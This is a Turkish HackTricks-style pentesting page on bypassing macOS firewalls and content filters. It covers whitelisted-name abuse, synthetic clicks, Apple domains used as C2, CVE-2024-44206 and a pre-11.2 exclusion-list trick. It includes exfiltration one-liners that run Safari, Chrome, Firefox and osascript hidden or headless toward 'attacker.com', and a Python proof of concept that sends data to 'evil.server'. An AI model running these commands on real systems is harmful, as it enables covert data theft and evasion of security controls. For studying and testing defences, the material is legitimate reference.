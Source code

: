 # macOS Firewall'ları Aşma

{{#include ../../banners/hacktricks-training.md}}

## Bulunan teknikler

Aşağıdaki teknikler bazı macOS firewall uygulamalarında çalıştığı bulunmuştur.

### Beyaz liste isimlerini kötüye kullanma

- Örneğin, kötü amaçlı yazılımı **`launchd`** gibi iyi bilinen macOS süreçlerinin isimleriyle çağırmak.

### Sentetik Tıklama

- Eğer firewall kullanıcıdan izin istiyorsa, kötü amaçlı yazılımın **izin ver** butonuna tıklamasını sağlamak.

### **Apple imzalı ikililer kullanma**

- **`curl`** gibi, ama ayrıca **`whois`** gibi diğerleri de.

### İyi bilinen apple alan adları

Firewall, **`apple.com`** veya **`icloud.com`** gibi iyi bilinen apple alan adlarına bağlantılara izin veriyor olabilir. Ve iCloud, bir C2 olarak kullanılabilir.

### Genel Aşma

Firewall'ları aşmayı denemek için bazı fikirler.

### İzin verilen trafiği kontrol etme

İzin verilen trafiği bilmek, potansiyel olarak beyaz listeye alınmış alan adlarını veya hangi uygulamaların onlara erişmesine izin verildiğini belirlemenize yardımcı olacaktır.
```bash
lsof -i TCP -sTCP:ESTABLISHED
```
### DNS'i Kötüye Kullanma

DNS çözümlemeleri, muhtemelen DNS sunucularıyla iletişim kurmasına izin verilecek olan **`mdnsreponder`** imzalı uygulama aracılığıyla gerçekleştirilir.

<figure><img src="../../images/image (468).png" alt="https://www.youtube.com/watch?v=UlT5KFTMn2k"><figcaption></figcaption></figure>

### Tarayıcı Uygulamaları Aracılığıyla

- **oascript**
```applescript
tell application "Safari"
run
tell application "Finder" to set visible of process "Safari" to false
make new document
set the URL of document 1 to "https://attacker.com?data=data%20to%20exfil
end tell
```
- Google Chrome
```bash
"Google Chrome" --crash-dumps-dir=/tmp --headless "https://attacker.com?data=data%20to%20exfil"
```
- Firefox
```bash
firefox-bin --headless "https://attacker.com?data=data%20to%20exfil"
```
- Safari
```bash
open -j -a Safari "https://attacker.com?data=data%20to%20exfil"
```
### Süreç enjeksiyonları aracılığıyla

Eğer herhangi bir sunucuya bağlanmasına izin verilen bir **süreç içine kod enjekte edebilirseniz**, güvenlik duvarı korumalarını aşabilirsiniz:


{{#ref}}
macos-proces-abuse/
{{#endref}}

---

## Son macOS güvenlik duvarı aşma zafiyetleri (2023-2025)

### Web içerik filtresi (Ekran Süresi) aşma – **CVE-2024-44206**
Temmuz 2024'te Apple, Ekran Süresi ebeveyn kontrolleri tarafından kullanılan sistem genelindeki “Web içerik filtresi”ni bozmuş olan kritik bir hatayı Safari/WebKit'te düzeltti. 
Özel olarak hazırlanmış bir URI (örneğin, çift URL kodlamalı “://” ile) Ekran Süresi ACL'si tarafından tanınmaz ancak WebKit tarafından kabul edilir, bu nedenle istek filtrelenmeden gönderilir. URL açabilen herhangi bir süreç (sandboxed veya imzasız kod dahil) bu nedenle kullanıcı veya bir MDM profili tarafından açıkça engellenen alanlara ulaşabilir.

Pratik test (yamanmamış sistem):
```bash
open "http://attacker%2Ecom%2F./"   # should be blocked by Screen Time
# if the patch is missing Safari will happily load the page
```
### Packet Filter (PF) kural sıralama hatası erken macOS 14 “Sonoma”
macOS 14 beta döngüsü sırasında Apple, **`pfctl`** etrafındaki kullanıcı alanı sarmalayıcısında bir regresyon tanıttı. `quick` anahtar kelimesi ile eklenen kurallar (birçok VPN kill-switch tarafından kullanılan) sessizce göz ardı edildi ve bir VPN/firewall GUI *engellendi* rapor etse bile trafik sızıntılarına neden oldu. Hata, birkaç VPN satıcısı tarafından doğrulandı ve RC 2'de (build 23A344) düzeltildi.

Hızlı sızıntı kontrolü:
```bash
pfctl -sr | grep quick       # rules are present…
sudo tcpdump -n -i en0 not port 53   # …but packets still leave the interface
```
### Apple imzalı yardımcı hizmetlerin kötüye kullanılması (eski – macOS 11.2 öncesi)
macOS 11.2'den önce **`ContentFilterExclusionList`** ~50 Apple ikili dosyasının, **`nsurlsessiond`** ve App Store gibi, Network Extension çerçevesi ile uygulanan tüm soket filtreli güvenlik duvarlarını (LuLu, Little Snitch, vb.) atlamasına izin veriyordu. Kötü amaçlı yazılım, basitçe hariç tutulan bir süreci başlatabilir veya ona kod enjekte edebilir ve kendi trafiğini zaten izin verilen soket üzerinden tünelleyebilirdi. Apple, macOS 11.2'de hariç tutma listesini tamamen kaldırdı, ancak bu teknik, yükseltilemeyen sistemlerde hala geçerlidir.

Örnek kanıt konsepti (11.2 öncesi):
```python
import subprocess, socket
# Launch excluded App Store helper (path collapsed for clarity)
subprocess.Popen(['/System/Applications/App\\ Store.app/Contents/MacOS/App Store'])
# Connect through the inherited socket
s = socket.create_connection(("evil.server", 443))
s.send(b"exfil...")
```
---

## Modern macOS için Araç İpuçları

1. GUI güvenlik duvarlarının oluşturduğu mevcut PF kurallarını inceleyin:
```bash
sudo pfctl -a com.apple/250.ApplicationFirewall -sr
```
2. Zaten *outgoing-network* yetkisine sahip olan ikili dosyaları listeleyin (piggy-backing için yararlıdır):
```bash
codesign -d --entitlements :- /path/to/bin 2>/dev/null \
| plutil -extract com.apple.security.network.client xml1 -o - -
```
3. Objective-C/Swift'te kendi Ağ Uzantısı içerik filtresini programatik olarak kaydedin.
Paketleri yerel bir sokete yönlendiren minimal rootless PoC, Patrick Wardle’ın **LuLu** kaynak kodunda mevcuttur.

## Referanslar

- [https://www.youtube.com/watch?v=UlT5KFTMn2k](https://www.youtube.com/watch?v=UlT5KFTMn2k)
- <https://nosebeard.co/advisories/nbl-001.html>
- <https://thehackernews.com/2021/01/apple-removes-macos-feature-that.html>

{{#include ../../banners/hacktricks-training.md}}
